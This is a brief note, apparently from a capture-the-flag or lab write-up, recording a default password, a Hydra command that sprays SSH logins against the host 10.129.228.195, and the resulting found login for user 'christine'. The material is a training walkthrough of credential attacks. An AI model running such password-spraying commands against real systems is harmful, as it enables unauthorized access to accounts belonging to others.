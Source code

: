 
Default pass is funnel123#!#
Gathered also some default users.

Hydra command for user spraying ssh is:
hydra -L users.txt -P pass.txt ssh://10.129.228.195 -vv 

found: host: 10.129.228.195   login: christine   password: funnel123#!#
